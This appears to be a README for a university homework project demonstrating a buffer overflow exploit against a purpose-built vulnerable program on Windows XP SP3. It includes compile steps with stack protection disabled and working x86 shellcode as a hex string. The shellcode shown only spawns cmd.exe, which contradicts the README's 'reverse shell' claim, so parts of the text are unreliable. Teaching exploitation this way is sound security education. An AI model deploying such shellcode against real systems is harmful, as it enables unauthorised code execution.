

# Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**



---

## Features

- **Reverse Shell**: Executes `cmd.exe` and connects back to the attacker.
- **Hardcoded API**: Uses static addresses for Windows XP SP3 functions.
- **Customizable**: Easily update target IP/port for the reverse shell.

---

## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] Shell-Storm, "Shellcode Examples Database," [Online]. Available: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html). [Accessed: Dec. 2, 2024].

[2] Cocomelonc, "Windows Shellcoding Example: Writing and Testing Shellcode for Windows," [Online]. Available: [https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html). [Accessed: Dec. 2, 2024].

[3] M. Valle, "Windows Manual Shellcode Part 3: CreateProcessA," [Online]. Available: [https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html). [Accessed: Dec. 2, 2024].
